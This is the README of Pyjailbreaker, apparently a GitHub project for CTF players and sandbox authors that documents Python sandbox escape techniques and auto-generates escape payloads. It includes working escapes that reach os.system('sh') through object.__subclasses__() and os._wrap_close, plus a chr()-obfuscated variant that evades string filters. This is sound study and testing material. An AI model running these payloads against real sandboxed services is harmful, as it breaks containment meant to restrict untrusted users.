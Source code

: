 # Pyjailbreaker
Python sandboxes, also known as pyjails in the CTF community, are pieces of code or libraries that runs arbitrary Python code with restricted access to certain resources based on rules and heuristics, commonly used to provide limited scripting functionality to unprivileged users.
With the nature of Python being exceedingly dynamic, there are countless ways to perform any desired functionality - with some potentially unaccounted for by the sandbox authors.

To better defend against this, a centralized knowledge base for all known techniques that is easy to test against was envisioned - and thus Pyjailbreaker was born.

Pyjailbreaker aims to be:
 - a comprehensive, human-readable wiki for Python sandbox escape techniques
 - a payload generator toolchain that automatically utilizes the components listed in said wiki

## Contributing
The most important piece of the repo is the [gadgets](jailbreak/gadgets) submodule! This repo ceases to be useful if not enough gadgets have been documented, both as a wiki and as a payload generator.

**If you know of any way to perform a given functionality in Python that is yet to be documented, no matter if it seems useful or not, please format it into a gadget according to the [specifications](jailbreak/gadgets/README.md) and open a PR!** As long as they conform to the specifications, is novel to the repo, and performs the intended functionality, we will accept it.

Please feel free to open PRs for other aspects of the repo too, including suggestions to enhance the specifications - but a discussion will usually have to be made first before they are merged to preserve the stability and readability of the repo.

## Structure
### Background
Most pyjail payloads can be split into the following components: parts performing a specific functionality that are chained together to perform a final functionality (**gadgets**), and transformations run on the gadgets to make them conform to the jail (**converters**).

For example, a payload to get a shell might require the following components: 

> list classes loaded -> get function with namespace that has `sys` in it -> get `sys` -> get `os` -> run `os.system`.

A common example is the `os._wrap_close` chain, widely adapted for many different jails due to its flexibility:
```py
[cls for cls in object.__subclasses__() if 'os._wrap_close' in str(cls)][0].__init__.__globals__['sys'].modules['os'].system('sh')
```
Which can be broken down into the following snippets of code, aka **gadgets**, to fit the components listed above:
```py
list_classes = object.__subclasses__()
get_func_with_sys = [cls for cls in list_classes if 'os._wrap_close' in str(cls)][0]
get_sys = get_func_with_sys.__init__.__globals__['sys']
get_os = get_sys.modules['os']
get_os.system('sh')
```

A chain, like the one above, can also be **converted** to avoid certain restrictions. For example, if the jail explicitly bans the use of literal strings / quotation marks, we could convert the above chain into this instead:
```py
[cls for cls in object.__subclasses__() if chr(111) + chr(115) + chr(46) + chr(95) + chr(119) + chr(114) + chr(97) + chr(112) + chr(95) + chr(99) + chr(108) + chr(111) + chr(115) + chr(101) in str(cls)][0].__init__.__globals__[chr(115) + chr(121) + chr(115)].modules[chr(111) + chr(115)].system(chr(115) + chr(104))
```
Which is a simple rewrite of the strings to use `chr` on each of the character's ascii value in the strings. Just like `chr` is a new requirement in the example, converters may require gadgets to perform a functionality - as long as those gadgets also do not violate the restrictions imposed by the jail.

By breaking down pyjail payloads into these components, we can document every payload as manageable, single-purpose chunks - with enough documented payloads, the chunks could be mix-and-matched to form new payloads that could bypass a different set of restrictions than the original payloads could.


### Repository layout
The repository structure can be described with the following components:
 - jailbreak
   - converters
   - gadgets
   - utils

All gadgets will be documented in the [gadgets](jailbreak/gadgets) submodule. Each type of gadgets is in a separate file, and each type has multiple gadgets to choose from - the README details the layout and format the gadgets are expected to be in.

Similarly, all converters will be documented in the [converters](jailbreak/converters) submodule - see the README there for more information. 

The [utils](jailbreak/utils) submodule is there for useful miscellaneous utilities for writing pyjail payloads or for investigating the repo.

In the future, there might be a proper web-based wiki generated from the submodules listed above for easier access and searching - for now the main intended method for looking up the components is via navigating on GitHub.

## Toolchain
The structure above is not only designed for human readability, but also for automatic payload generation: given a set of constraints, it is possible to perform a search on the dependency graphs of the gadgets in order to generate a chain that performs the intended functionality.

This is provided by importing `jailbreak` as a Python module, which will perform the necessary dependency resolution and transformations needed to satisfy the restrictions configured, given that there are gadgets and converters in the repo that satisfies it.

### Usage

The `jailbreak` module can be imported if it is on the Python path, provided that `pip install -r requirements.txt` has been run.

Converters are used automatically in the exploit chain generator as needed, but one can manually import the converters using `from jailbreak.converters.<subdirs> import <converter full name>`, similar to accessing raw gadgets.

Importing a gadget using `from jailbreak import <gadget function name>` will trigger the searcher to perform a traversal with the configured restrictions.

One can configure the restrictions by calling the following function:

```py
import jailbreak
import ast, pickle

jailbreak.config(
    ast=[ast.CALL, ...],                    # a list of ast nodes to be banned
    char='ABCDEF...',                       # a string of all characters to be banned
    platforms=["windows", "mac", "linux"],  # see above
    versions=[10, 11, 12],                  # see above
    pickle=[pickle.REDUCE, ...],            # a list of pickle ops to be banned
    provided=["<gadget name>", ...],        # list of gadgets that is already provided, including any names of builtins already provided.
    inline=False                            # boolean for whether the returned gadget chain should be inlined or not (default: false)
)

#returns a string object representing the code generated, or throws an error with the closest string object (closest == least restriction violations)
#params (can be empty) are for the last gadget in the gadget chain (aka the one requested by the user), and are python code in string form for flexibility
#NOTE: all params passed are unverified since it is direct user given code and is deemed usable out of the box
chain = jailbreak.<gadget function name>(<param1>, ...)  
```

The restrictions only adds up at the moment - all of the criteria has to be met for the gadget to be deemed usable.

The `inline=True` configuration is intended for direct use as a payload or for further transformations - the generated code is not intended to be human readable. For investigating gadget chains and their interactions, `inline=False` should be used, which preserves the functions and their dependency hierachy.

Outside of the exploit chain generator, if a specific gadget is required either for manual chain creation, inspection, or testing, `from jailbreak.gadgets.<subdirs> import <gadget full name>` could be used instead.

A user is also able to provide their own gadgets through providing their own python function that conforms to the gadget spec via `jailbreak.register_user_gadget(<gadget function object>, <gadget type (aka the directory names in gadgets/, e.g. "python")>)`.

### Example
To generate a similar chain to the one in the [Background](README.md#background) section, one can simply do:
```py
import jailbreak
jailbreak.config(inline=True)   #inlining for saving space in README
print(jailbreak.get_shell("'sh'"))
```
Which will return the following:
```py
get_shell__os_system_cmd = 'sh'
type = [].__class__.__class__
bytes = type((i for i in []).gi_code.co_code)
type = [].__class__.__class__
str = type(bytes().decode())
object = ().__class__.__base__
list_classes = object.__subclasses__()
sys = [c for c in list_classes if 'wrap_close' in str(c)][0].__init__.__globals__['sys']
os = sys.modules['os']
os.system(get_shell__os_system_cmd)
get_shell__os_system_0 = None
get_shell__os_system_0

```
Note that this payload is more complicated than the one given in the [Background](README.md#background) section - it assumes that builtins like `str` is not available in scope by default. But the same components exist in both payloads - and most importantly both gets us a shell at the end.

More advanced usage can be seen in [example.py](example.py).
